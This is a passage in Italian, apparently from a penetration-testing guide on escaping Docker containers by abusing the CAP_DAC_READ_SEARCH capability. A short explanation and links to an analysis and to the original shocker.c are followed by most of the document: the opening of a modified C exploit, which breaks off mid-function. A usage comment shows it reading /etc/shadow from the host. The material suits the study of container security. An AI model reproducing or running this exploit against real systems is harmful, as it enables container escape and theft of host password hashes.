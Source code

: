 Puoi apprendere come funziona il seguente exploit in [https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) ma in sintesi **CAP_DAC_READ_SEARCH** non solo ci consente di attraversare il file system senza controlli di autorizzazione, ma rimuove anche esplicitamente eventuali controlli su _**open_by_handle_at(2)**_ e **potrebbe consentire al nostro processo di accedere a file sensibili aperti da altri processi**.

L'exploit originale che sfrutta queste autorizzazioni per leggere file dall'host può essere trovato qui: [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c), il seguente è una **versione modificata che ti consente di indicare il file che desideri leggere come primo argomento e di scaricarlo in un file.**
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
unsigned int handle_bytes;
int handle_type;
unsigned char f_handle[8];
};

void die(const char *msg)
{
perror(msg);
exit(errno);
}

void dump_handle(const struct my_file_handle *h)
{
fprintf(stderr,"[*] #=%d, %d, char nh[] = {", h->handle_bytes,
h->handle_type);
for (int i = 0; i < h->handle_bytes; ++i) {
fprintf(stderr,"0x%02x", h->f_handle[i]);
if ((i + 1) % 20 == 0)
fprintf(stderr,"\n");
if (i < h->handle_bytes - 1)
fprintf(stderr,", ");
}
fprintf(stderr,"};\n");
}

int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle
*oh)
{
int fd;
uint32_t ino = 0;
struct my_file_handle outh = {
.handle_bytes = 8,
.handle_type = 1
};
DIR *dir = NULL;
struct dirent *de = NULL;
```
